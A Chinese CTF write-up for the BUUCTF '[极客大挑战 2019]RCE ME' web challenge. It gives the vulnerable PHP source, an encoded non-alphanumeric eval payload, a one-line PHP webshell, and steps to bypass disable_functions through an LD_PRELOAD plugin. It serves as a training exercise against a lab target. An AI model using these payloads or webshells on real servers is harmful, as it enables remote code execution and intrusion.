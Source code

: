 ```yaml
---
title: 极客大挑战 2019 RCE ME
date: 2020-12-05 20:42:00
categories: ['CTF']
tags: ['Web','BUUCTF_Web','RCE','disable_function绕过']
---
```


# [极客大挑战 2019]RCE ME

源码：

```
<?php
error_reporting(0);
if(isset($_GET['code'])){
            $code=$_GET['code'];
                    if(strlen($code)>40){
                                        die("This is too Long.");
                                                }
                    if(preg_match("/[A-Za-z0-9]+/",$code)){
                                        die("NO.");
                                                }
                    @eval($code);
}
else{
            highlight_file(__FILE__);
}

// ?>
```

分析一波，GET请求获得`code`，想要通过的话需要绕过两个检测：

1. payload长度小于40
2. 不能包含`a-z、A-Z、0-9`

和之前做过DMCTF里的一个不能用数字和字母构造payload一样，当时参考的博客是phith0n师傅的:[一些不包含数字和字母的webshell](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html)，这次摸到了相关文章：[无字母数字webshell之提高篇](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html)。

使用`url编码`+`~`取反构造不可见字符串，然后加上php7版本以后支持了使用：`($a)()`这样的方法动态执行函数，所以我们可以构造payload：`assert(eval($_POST[‘a’]))`

先构造`assert`：

```
echo urlencode(~'assert');

//结果：%9E%8C%8C%9A%8D%8B
```

再构造`eval($_POST['a'])`：

```
echo urlencode(~'eval($_POST[\'a\'])');

//结果：%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%D8%9E%D8%A2%D6
```

完整payload：

```
?code=(~%9E%8C%8C%9A%8D%8B)(~%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%D8%9E%D8%A2%D6);
```

网站获得请求以后会进行url解码，由于是不可见字符可以绕过长度和正则表达式，之后执行代码时，前面的`~`取反再获得真正的函数名。

使用蚁剑连接，进后台在根目录找到了flag、readflag。打开flag内容为空，又打开readflag文件是一堆乱码，但是看到了文件头是`ELF`是linux的可执行文件。那么很有可能就是执行readflag才能获得flag，但是在终端执行时出现了一些问题：无论输入什么，终端都只会返回`ret=127`：

![](https://cdn.jsdelivr.net/gh/penginman/PicBed@master/artical/20201205201403.png)

搜索了一波，原来是是**disable_function**搞的鬼，这个表可以在phpinfo()中查看：

![](https://cdn.jsdelivr.net/gh/penginman/PicBed@master/artical/20201205201821.png)

因为`system`、`exec`、`shell_exec`等命令执行的函数都被禁止了，目前我理解的webshell就是通过这些函数才能在终端执行命令的，所以终端基本是个废的，所以就是寻找绕过**disable_function**的方法，网上有很多其他方法，其中一个方法：

**利用环境变量LD_PRELOAD来绕过**

> php的mail函数在执行过程中会默认调用系统程序/usr/sbin/sendmail，如果我们能劫持sendmail程序，再用mail函数来触发就能实现我们的目的
> 
> LD_PRELOAD是Linux系统的下一个有趣的环境变量：“它允许你定义在程序运行前优先加载的动态链接库。这个功能主要就是用来有选择性的载入不同动态链接库中的相同函数。通过这个环境变量，我们可以在主程序和其动态链接库的中间加载别的动态链接库，甚至覆盖正常的函数库。一方面，我们可以以此功能来使用自己的或是更好的函数（无需别人的源码），而另一方面，我们也可以以向别人的程序注入程序，从而达到特定的目的。

正好蚁剑的插件中就有一个名为：[as_bypass_php_disable_functions](https://github.com/Medicean/as_bypass_php_disable_functions)的插件，可以选择在插件市场安装或是手动安装（github有步骤）。安装以后右键shell选择加载插件：

![](https://cdn.jsdelivr.net/gh/penginman/PicBed@master/artical/20201204234337.png)

插件的工作原理是自动上传几个绕过的文件，然后再用蚁剑连接上传的文件即可实现绕过，但是一开始的`/var/www/html`目录是没有上传权限的，我右键以后发现能修改权限，改成0777：

![](https://cdn.jsdelivr.net/gh/penginman/PicBed@master/artical/20201204190508.png)

> 在这里我还遇到了问题，使用原来的shell执行插件功能以后，终端还是没有权限，但是我尝试了自己又上传了一个一句话木马，用这个新的一句话木马执行插件才成功，具体原因我也不清楚，如果有师傅知道原因求告知。

上传一句话木马233.php：

```
<?php
@eval($_POST['b']);
```

再用一句话木马的shell执行插件：

![](https://cdn.jsdelivr.net/gh/penginman/PicBed@master/artical/20201204231514.png)

进入shell，目录下面多了一个名为**\.antproxy.php**的文件：

![](https://cdn.jsdelivr.net/gh/penginman/PicBed@master/artical/20201204234445.png)

再使用蚁剑连接**\.antproxy.php**，密码是运行插件的那个shell的密码，这时候就可以开开心心的去根目录下执行readflag获得flag辣。

![](https://cdn.jsdelivr.net/gh/penginman/PicBed@master/artical/20201204233847.png)

flag{a216900e-2427-48f7-9323-f65d0a3abdbf}
